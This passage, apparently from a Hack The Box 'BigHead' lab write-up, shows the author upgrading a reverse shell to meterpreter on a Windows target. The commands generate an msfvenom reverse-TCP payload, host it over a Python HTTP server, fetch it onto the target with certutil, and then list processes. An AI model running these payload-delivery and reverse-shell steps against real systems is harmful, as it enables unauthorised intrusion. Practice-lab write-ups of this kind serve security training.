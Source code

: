 ![](/images/hackthebox/bighead/89.png)
<br> I wanted to upgrade that reverse shell into `meterpreter` so I had to create the payload first :
`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.xx.xx LPORT=1338 -f exe > m.exe`
![](/images/hackthebox/bighead/90.png)
<br> Then I set up the `meterpreter` handler :
![](/images/hackthebox/bighead/91.png)
<br> I ran a python simple http server on port 80 : `python -m SimpleHTTPServer 80` to host the payload. Then I went to `C:\Users\Nelson\AppData\Local\Temp` and downloaded the payload with `certutil` :
`certutil -urlcache -split -f http://10.10.xx.xx/m.exe m.exe`
![](/images/hackthebox/bighead/92.png)
<br> Then I executed it and got a `meterpreter` session :
![](/images/hackthebox/bighead/93.png)
<br>
<br>
![](/images/hackthebox/bighead/94.png)
<br> From `meterpreter` I wanted to look at the services so I did `ps`, I looked through them and found an interesting service called `BvSshServer.exe`